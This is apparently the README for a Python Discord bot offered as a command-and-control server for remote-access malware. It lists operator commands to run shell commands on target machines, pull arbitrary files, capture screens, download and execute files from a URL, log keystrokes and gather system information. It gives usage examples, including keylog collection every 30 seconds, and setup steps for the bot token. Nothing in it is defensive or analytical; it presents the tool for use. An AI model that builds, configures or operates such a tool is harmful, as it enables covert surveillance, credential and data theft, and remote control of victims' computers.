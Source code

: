 # C2 Python Discord Bot
*(Created by Diego Monteiro)*

## What's "C2 Discord bot" ?

> The C2 Discord bot utilizes the Discord's Developer functionality that allows you to make bots capable to interager with the user acting like a Command and Control Server.

<br>

### Before continue you must follow the steps covered on [Discord's Documentaion](https://discordpy.readthedocs.io/en/stable/discord.html).

<br>

## C2 Discord bot commands:

Command | Functions
----------|-----------
$b | All bots receive commands
$wake | Show active bots
$shell \<cmd\>| Execute a command on target system
$upload \<file\>| Download a arbitrary file from target system
$grab | Capture screen from target system
$down_exec \<url\>| Download a file to target system and execute it
$klogging \<sec\>| Start key logging on target system
$sysinfo | Get information from target system

<br>

## Examples:

<br>


In the follow code all bots will return stdout from the shell command.

<code> $b $shell dir *.png </code>
  
If want specify just a target you can do this:

 <code>$Bot-name $shell dir *.png</code>

---
Get the key logger every 30 seconds. The bot will send to you in a .txt format:

<code>$b $klogging 30</code>

<br>

## Remember:
- Put your discord token in 'PUT YOUR TOKEN HERE' in the <text>botDiscord.py</text> file.
- Replace '000000' in the <text>botDiscord.py</text> file to your user id.

